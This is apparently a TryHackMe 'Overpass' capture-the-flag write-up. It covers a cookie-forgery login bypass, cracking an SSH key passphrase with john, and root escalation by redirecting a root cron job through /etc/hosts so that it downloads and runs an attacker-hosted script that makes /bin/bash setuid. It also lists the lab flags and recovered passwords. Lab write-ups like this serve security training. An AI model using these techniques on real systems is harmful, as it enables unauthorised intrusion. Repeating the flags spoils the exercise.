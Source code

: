 # Overpass 1

* IP = 10.10.235.228

## Questions/Tasks:

* Starting with a nmap scan to discover open ports:`nmap -sC -sV $IP`

### Nmap Scan Results:
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 37:96:85:98:d1:00:9c:14:63:d9:b0:34:75:b1:f9:57 (RSA)
|   256 53:75:fa:c0:65:da:dd:b1:e8:dd:40:b8:f6:82:39:24 (ECDSA)
|_  256 1c:4a:da:1f:36:54:6d:a6:c6:17:00:27:2e:67:75:9c (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-favicon: Unknown favicon MD5: 0D4315E5A0B066CEFD5B216C8362564B
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Overpass
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
* Next we enumerate the webpage with *gobuster*:`gobuster -u "http://IP/" -w common.txt`

### Gobuster Scan Results:
```
/aboutus (Status: 301)
/admin (Status: 301)
/css (Status: 301)
/downloads (Status: 301)
/img (Status: 301)
/index.html (Status: 301)
```
* Net we tried some basic recon over the whole webpage:<br>
* Main Page:<br>
![Screenshot](./assets/1.png)
* Main Page Source:<br>
![Screenshot](./assets/3.png)
* About Us Page:<br>
![Screenshot](./assets/4.png)
* Downloads Page:<br>
![Screenshot](./assets/2.png)

* From here, we download the source code and the build script.
* Only interesting thing about the source was:
```go
func rot47(input string) string {}
```
* Which indicated usage of ROT47 for encryption, and:
```go
credsPath, err := homedir.Expand("~/.overpass")
```
* Which tells us about the location of storing credentials...
* Next we visited the **/admin** page:<br>
![Screenshot](./assets/5.png)
* Now, as the hint says, no need to brute force, So we looked for source codes:
* In the main.js file we found this function:
```javascript
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
```
* In the console of DevTools we set a cookie with `Cookies.set("SessionToken","AnythingForTest")`, and reloaded the page:<br>
![Screenshot](./assets/6.png)
* And voila! we got an encrypted rsa private key; look carefully it says for `James` hence the username is `james`.
* Copy the text into a file and change permissions with:`chmod 600 id_rsa`
* Next, to crack the passphrase, create a hash:`python ssh2john.py id_rsa > hash.txt`, then crack with:<br>
`john hash.txt --wordlist=rockyou.txt`

* We get the cracked passphrase as `james13`, now SSH into the server with:`ssh -i id_rsa james@IP`.
* Just like that we get the user flag...
* Tried some basic recon on the james' home directory and got these:<br>
![Screenshot](./assets/8.png)
* The encrypted contents decrypted with an online tool:<br>
![Screenshot](./assets/7.png)
```JSON
[{"name":"System","pass":"saydrawnlyingpicture"}]
```

1. Hack the machine and get the flag in user.txt

**Ans-thm{65c1aaf000506e56996822c6281e6bf7}**

* Firstly we tried `sudo -l` to check commands that can be run as root, but `james` is not in sudo group.
* No interesting SUID/SGID binaries either...
* Finally checked the crontab and found this:<br>
![Screenshot](./assets/10.png)
* Also we have read and write permissions in /etc/hosts:<br>
![Screenshot](./assets/11.png)<br>
* Thus we can edit the `/etc/hosts` file to change the hostname `overpass.thm` IP to our IP:<br>
![Screenshot](./assets/12.png)
* Now save the changes and build a custom script `buildscript.sh` in **local machine** to get a root shell, since the cronjob is run by **root** in every minute!!
* Put the file inside `./downloads/src/`.
* Start a python server with port 80 on local machine:`sudo python3 -m http.server 80`<br>
![Screenshot](./assets/13.png)
* Waiting for a minute and half for the cronjob to run, we get a root shell according to the custom script.


* I personally just added `chmod +s /bin/bash` to **buildscript.sh**, so after a minute the permissions of /bin/bash of the server changed to a setuid binary
* Now I used `/bin/bash -p` to get a root shell

2. Escalate your privileges and get the flag in root.txt

**Ans-thm{7f336f8c359dbac18d54fdd64ea753bb}**


**PS** Anyone wondering where would be the Tryhackme coupon code, just visit */home/tryhackme*, see the contents of *.overpass*, decrypt it, and you'll get it!! Though it's invalid now...🥲
